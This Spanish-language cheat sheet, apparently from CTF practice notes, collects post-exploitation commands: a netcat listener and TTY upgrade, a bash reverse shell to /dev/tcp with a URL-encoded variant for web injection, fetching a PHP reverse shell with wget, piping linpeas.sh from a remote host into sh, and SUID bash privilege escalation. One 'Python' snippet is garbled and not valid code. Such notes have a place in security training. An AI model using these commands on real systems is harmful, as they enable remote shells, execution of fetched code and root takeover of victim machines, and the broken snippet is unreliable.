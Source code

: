 ```
[1]  + continued  nc -nvlp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
* Exportemos **xterm**, **bash** y cambiemos el tamaño de la terminal (este último es opcional, pero lo recomiendo):
```
www-data@bashed:/var/www/html/dev$ export TERM=xterm
www-data@bashed:/var/www/html/dev$ export SHELL=bash
www-data@bashed:/var/www/html/dev$ stty rows 51 columns 189
```
Y listo, ya tenemos nuestra terminal interactiva.

<h2 id="Bash">Conectarse Remotamente con Bash</h2>

Esta es una forma simple de conectarse remotamente en una máquina que usa Linux.

* Vamos a usar el siguiente script:
```
bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"
```
* Si lo necesitas para una página web, debes **url encodearlo** cambiando los ampersands por **%26**.
```
bash -c "bash -i >%26 /dev/tcp/Tu_IP/443 0>%261"
```

<h2 id="Descarga">Descargando una Archivo en Máquina Victima con Linux</h2>

Hay varias formas en las que podemos descargar o usar un archivo en una máquina Linux, aquí algunos ejemplos:
* Primero, vamos a levantar un servidor en Python:
```
python3 -m http.server   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
* Ahora descargamos el archivo, como ejemplo usaremos la Reverse Shell de PHP:
```
wget Tu_IP:8000/php-reverse-shell.php
```
* O bien, si queremos usar un archivo como **linpeas.h**, aquí usamos el puerto 80 del servidor de Python:
```
curl 10.10.14.16:80/linpeas.sh | sh
```

<h2 id="Escalar">Escalar Privilegios con Chmod</h2>

¿Quieres escalar privilegios de forma sencilla? Usa **chmod** para hacerlo, aquí un par de ejemplos:
* Si tienes privilegios como SUDO para **chmod**, solamente escribe el siguiente comando:
```
chmod u+s /bin/bash
```
* Si lo necesitas para un script en Python, solo escribe:
```
os import
chmod u+s /bin/bash
```
* Ahora, escala privilegios con bash:
```
ejemplo@test:$ bash -p
bash-4.3# whoami
root
```
